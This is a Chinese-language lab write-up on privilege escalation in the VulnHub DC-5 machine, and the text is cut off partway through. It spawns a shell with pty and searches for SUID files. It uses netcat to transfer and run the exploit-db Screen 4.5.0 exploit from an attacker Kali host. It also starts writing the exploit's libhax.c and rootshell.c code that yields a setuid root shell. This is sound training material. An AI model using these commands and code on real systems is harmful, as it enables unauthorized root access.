
# 后期-提权

升级下
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

找带 suid 的文件
```bash
find / -perm -u=s 2>/dev/null
```

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/11.png)

在 searchsploit 里找到了一个可以提权的，版本正好是 Screen 4.5.0
```
searchsploit -w screen 4.5.0
```

访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送
```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行
```bash
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行
```bash
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
```